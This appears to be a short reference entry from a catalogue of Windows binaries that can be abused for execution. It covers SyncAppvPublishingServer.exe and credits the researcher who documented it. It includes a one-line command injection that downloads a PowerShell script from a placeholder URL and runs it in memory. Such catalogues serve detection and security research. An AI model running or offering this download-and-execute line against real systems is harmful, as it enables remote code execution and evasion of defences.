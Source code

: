 ## SyncAppvPublishingServer.exe

* Functions: Execute

```
SyncAppvPublishingServer.exe "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX
```

Acknowledgements:
* Nick Landers - @monoxgas

Code sample:
* 

Resources:
* https://twitter.com/monoxgas/status/895045566090010624

Full path:
```
C:\Windows\System32\SyncAppvPublishingServer.exe
```

Notes:
Command injection into PowerShell
Might have been fixed in newest version of Windows 10.


 

